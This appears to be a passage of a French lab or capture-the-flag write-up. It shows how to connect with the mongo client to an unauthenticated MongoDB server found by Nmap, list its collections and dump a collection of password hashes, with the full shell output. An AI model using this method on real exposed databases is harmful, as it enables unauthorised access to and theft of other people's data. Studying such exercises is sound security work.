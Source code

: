*MongoDB* est un système de base de données *NoSQL* bien connu. Par contre il ne dispose pas d'un système d'authentification par conséquence si le service est exposé sur Internet tout le monde peut fouiller dans la base.  

[Le projet Un1c0rn](http://d4n3ws.polux-hosting.com/2014/06/12/project-un1c0rn-le-google-des-serveurs-vulnerables/) recense différents serveurs vulnérables à un accès *MongoDB* ouvert.  

Pour se connecter on se sert du client officiel *MongoDB*. Notez que pour certaines plateformes on trouve des binaires précompilés.  

On passe en argument l'adresse IP du serveur ainsi que le nom de la base (récupérée plus tôt par *Nmap*, la vie est bien faite) :  

```plain
$ ./mongo 192.168.5.56/NoExploitingMe
MongoDB shell version: 2.6.3
connecting to: 192.168.5.56/NoExploitingMe
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
	http://docs.mongodb.org/
Questions? Try the support group
	http://groups.google.com/group/mongodb-user
Server has startup warnings: 
Tue Jul  1 08:05:04.297 [initandlisten] 
Tue Jul  1 08:05:04.297 [initandlisten] ** NOTE: This is a 32 bit MongoDB binary.
Tue Jul  1 08:05:04.297 [initandlisten] **       32 bit builds are limited to less than 2GB of data (or less with --journal).
Tue Jul  1 08:05:04.297 [initandlisten] **       Note that journaling defaults to off for 32 bit and is currently off.
Tue Jul  1 08:05:04.297 [initandlisten] **       See http://dochub.mongodb.org/core/32bit
Tue Jul  1 08:05:04.297 [initandlisten] 
> help
	db.help()                    help on db methods
	db.mycoll.help()             help on collection methods
	sh.help()                    sharding helpers
	rs.help()                    replica set helpers
	help admin                   administrative help
	help connect                 connecting to a db help
	help keys                    key shortcuts
	help misc                    misc things to know
	help mr                      mapreduce

	show dbs                     show database names
	show collections             show collections in current database
	show users                   show users in current database
	show profile                 show most recent system.profile entries with time >= 1ms
	show logs                    show the accessible logger names
	show log [name]              prints out the last segment of log in memory, 'global' is default
	use <db_name>                set current database
	db.foo.find()                list objects in collection foo
	db.foo.find( { a : 1 } )     list objects in foo where a == 1
	it                           result of the last line evaluated; use to further iterate
	DBQuery.shellBatchSize = x   set default number of items to display on shell
	exit                         quit the mongo shell
> show collections
hashes
system.indexes
users
> db.hashes.find()
{ "_id" : ObjectId("53b2ce213d9f3b7ecb689e0c"), "hash" : "a9b7ba70783b617e9998dc4dd82eb3c5" }
{ "_id" : ObjectId("53b2ce213360db12c1cc98c4"), "hash" : "b8c37e33defde51cf91e1e03e51657da" }
{ "_id" : ObjectId("53b2ce21ab519d66c7e8c3fa"), "hash" : "fba9d88164f3e2d9109ee770223212a0" }
{ "_id" : ObjectId("53b2ce21a9b1a0d11763f3cb"), "hash" : "aa68c75c4a77c87f97fb686b2f068676" }
{ "_id" : ObjectId("53b2ce21e1f720407fee85d0"), "hash" : "fed33392d3a48aa149a87a38b875ba4a" }
{ "_id" : ObjectId("53b2ce21945ebf8f0a006cf6"), "hash" : "2387337ba1e0b0249ba90f55b2ba2521" }
```